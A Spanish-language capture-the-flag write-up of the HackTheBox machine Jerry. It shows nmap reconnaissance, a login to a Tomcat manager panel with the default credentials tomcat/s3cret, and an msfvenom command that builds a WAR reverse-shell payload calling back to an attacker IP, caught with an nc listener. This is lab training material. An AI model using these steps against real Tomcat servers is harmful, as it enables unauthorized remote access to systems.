 ```yaml
---
layout:   post
title:    "Write Up Jerry."
subtitle: "Starting-Point"
category:   HTB
tags:      Starting-Point eJPT Easy Windows Upload Tomcat payload Java RCE Default-Credentials
---
```

![list](/assets/img/jerry/Captura de pantalla (140).png){:.lead width="800" height="100" loading="lazy"}

***
<!--more-->

1. this ordered seed list will be replaced by the toc
{:toc}

***

## Reconocimiento

Fase inicial donde recolectamos toda la información posible del objetivo, utilizando diferentes técnicas como:

| Caracter.                                   |
|:--------------------------------------------|
|Recopilación de tecnologuias.                |
|Dominios.                                    |
|IPs.                                         |
|Puertos.                                     |
|Servicios.                                   |
|Recopilación de metadatos, etc.              |


***
### nmap

Utizando nmap comprobamos que puertos estan abiertos.


```bash
nmap -p- --open --min-rate 5000 -n -vvv -Pn 10.10.10.95 -oA allports
```
El paso anterior se debe hacer con privileguios (root).
{:.note title="Attention"}


![list](/assets/img/jerry/Kali-2022-09-08-22-00-57.png){:.lead width="800" height="100" loading="lazy"}

***
### Servicios y versiones

Una vez sabemos que puertos estan abiertos con el comandoa anterior debemos saber que versiones y 

servicios que corren en los mismo de ahi podremos determinara posibles vulnerabilidades.

Esto lo hacemos con el siguiente comando.


```bash
nmap -p22,8080 -sV -sC 10.10.10.95 -oN target
```
El paso anterior no es nesesario ser (root).
{:.note title="Attention"}


![list](/assets/img/jerry/Kali-2022-09-08-22-02-30.png){:.lead width="800" height="100" loading="lazy"}


***
### Investigación

Uso de Investigacion web, Google Hacking,Google Dorks.

Recopilación de información gracias a servicios de terceros.

Ispeccionamos la web.

![list](/assets/img/jerry/Kali-2022-09-08-22-06-39.png){:.lead width="800" height="100" loading="lazy"}

Inpeccionamos las tecnologias de la ip ataves de la terminal o via  web esto lo hacemos con 

wapalizzer o whatweb.

![list](/assets/img/jerry/Kali-2022-09-08-22-04-28.png){:.lead width="800" height="100" loading="lazy"}

En google podemos bucar claves por defecto segun que tecnologias averiguemos o simplemente 

podemos hacer user/pass desing o (usuario y contraseñas por defecto), podemos usar burpsuite 

para inteceptar peticiones y averiguar mas datos pero en este caso la cxredeciales estan expuestas 

`user=tomcat pass=s3cret`.

![list](/assets/img/jerry/Kali-2022-09-08-22-11-20.png){:.lead width="800" height="100" loading="lazy"}

***
## Analisis de vulnerabilidades

Ingresamos al panel de configuiaracion  e igual ispeccionamos la pagina es algo que deberemos 

hacer habitual en cada maquina que nos dipongamos a explotar, vemos la posibilidad de subir 

archivos .war, por lo que podemos explotar esa ventaja ,podreos intentar subir cualaquier archivo 

a modo de prueba pero no nos deja. 

![list](/assets/img/jerry/Kali-2022-09-08-22-13-45.png){:.lead width="800" height="100" loading="lazy"}

***
## Explotacion

Por lo que crearemos un payload o (carga util) con mfsvenom para cosegir una reverse shell. 

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.10 LPORT=443 -f war > shell.war
```
El LHOST Y LPORT deberan ser la ip de tu VPN y un puerto que tu quieras. 
{:.note}

La subimos al srvidor y con el listener a la ecucha `nc -lvnp 443` damos clic donde dice el nombre de 

nuestra carga util lo que hara que se conecte a nuestro nc otrogandonos la reverse shell.

***
## Escalacion de privileguios

Jerry no tiene escalacion de privilegios ya que ya somos root ,pero podemos bucar la flag, este caso 

se ecuentar en el mismo archivo las dos flags en el escritorio.

![list](/assets/img/jerry/Kali-2022-09-08-23-24-48.png){:.lead width="800" height="100" loading="lazy"}

```bash
🎉 Felicitaciones ya has comprometido Jerry de HackTheBox 🎉
```
{:.centered}
***
Continue with [Beginner Track](2022-09-12-Beginner%20Track.md){:.heading.flip-title}
{:.read-more}